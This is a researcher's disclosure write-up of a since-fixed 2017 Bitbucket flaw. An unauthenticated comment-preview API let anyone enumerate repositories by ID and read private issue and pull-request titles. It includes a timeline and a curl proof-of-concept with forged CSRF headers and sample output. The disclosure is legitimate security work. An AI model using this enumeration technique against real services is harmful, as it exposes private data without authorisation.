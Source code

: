 # Enumerating Bitbucket repos and private issue titles

This is a short disclosure of an already fixed vulnerability which I reported to Atlassian Security in May 2017 and that was fixed back in August 2017. It should have been published long ago, but writing this note was delayed due to me being busy with [npm password re-use](Gathering-weak-npm-credentials.md) and other things, and with a burn-out after that.

This vulnerability allowed unauthorized users to read issue/pr titles of all the private [Bitbucket](https://bitbucket.org/) repos, enumerating those using repo IDs (which look to be incremental).

I think that this has some value published even now. I'm still struggling with some personal problems, so this would be a rather short note. _I also have several more on the backlog (not related to Bitbucket, though) :wink:_.

Ref (private): [SEC-1539](https://securitysd.atlassian.net/servicedesk/customer/portal/2/SEC-1539).


## Timeline

* Reported: 2017-05-31
* Confirmed: 2017-05-31
* Fix ready: 2017-07-25
* Fix applied: 2017-08-07
* Published: 2018-05-10 15:00 UTC.

## The issue

1. Bitbucket supports Markdown in issue comments.
2. Markdown in Bitbucket comments translates `#1` to issue/pr links, e.g. like this:
  `<a href=\"/ChALkeR/hidden/issues/1/playbin\" rel=\"nofollow\" title=\"Playbin\">#1</a>`.
3. Bitbucket has comments preview, so that you could preview your comment before posting.
4. In order to do that, they use an API located at `https://bitbucket.org/!api/1.0/content-preview/`, which accepts repo id (numeric) and markdown text, and spits out formatted HTML code. That's the API their web interface itself requests to build a comment preview.
5. That API did not have any authorization control whatsoever and allowed anonymous access, which resulted in unauthorized users being able to enumerate repos (the numeric repo IDs look incremental) and extract all the private issue/PR titles. That was the issue.

## PoC

```bash
#!/bin/bash
curl 'https://bitbucket.org/!api/1.0/content-preview/' -H 'origin: https://bitbucket.org' -H 'accept-encoding: gzip, deflate, br' -H 'x-requested-with: XMLHttpRequest' -H 'x-csrftoken: 111' -H 'content-type: application/x-www-form-urlencoded; charset=UTF-8' -H 'accept: application/json, text/javascript, /; q=0.01' -H 'referer: https://bitbucket.org/' -H 'authority: bitbucket.org' -H 'cookie: csrftoken=111' --data 'content=issue #1 #2 #3 #4 #5 abc123456&repo_id='$1 --compressed
```

Produced this output (e.g. for `./get.sh 24698634`):
```json
{"markup": "<p>issue <a href=\"/ChALkeR/hidden-alert-1/issues/1/playbin\" rel=\"nofollow\" title=\"Playbin\">#1</a> <a href=\"/ChALkeR/hidden-alert-1/issues/2/poc-1-xss\" rel=\"nofollow\" title=\"PoC 1 — XSS\">#2</a> <a href=\"/ChALkeR/hidden-alert-1/issues/3/playbin-2\" rel=\"nofollow\" title=\"Playbin 2\">#3</a> <a href=\"/ChALkeR/hidden-alert-1/issues/4/playbin-3-ddd\" rel=\"nofollow\" title=\"Playbin #3 '"ddd\">#4</a> <a href=\"/ChALkeR/hidden-alert-1/issues/5/hidden\" rel=\"nofollow\" title=\"hidden\">#5</a> <a href=\"/ChALkeR/hidden-alert-1/commits/abc123456\" rel=\"nofollow\">abc123456</a></p>"}
```

Using that, the attacker was able to enumerate all the Bitbucket.org repos (that have at least one issue or a PR) with their owners,
and get the titles of all private issues.

Issue titles were unwrapped from the `#1 #2 #3 #4 #5` part — adding other numbers would have accessed other issues and exposed the titles of those.

_The «XSS» part is from another issue — see [here](Improper-markup-sanitization.md#bitbucket) to read about the Bitbucket XSS story._

---

If you have any questions to me, contact me over [Gitter](https://gitter.im/ChALkeR) (@ChALkeR) or IRC (ChALkeR@freenode).

This vulnerability report was not covered by any bounty reward programs, and I did not receive a monetary reward for it.\
If you want to support me so that I would be able to keep doing what I am doing, consider supporting me on [Patreon](https://www.patreon.com/ChALkeR).\
Current supporters are listed on my [fundraising](https://github.com/ChALkeR/fundraising#personal-fundraising) page.
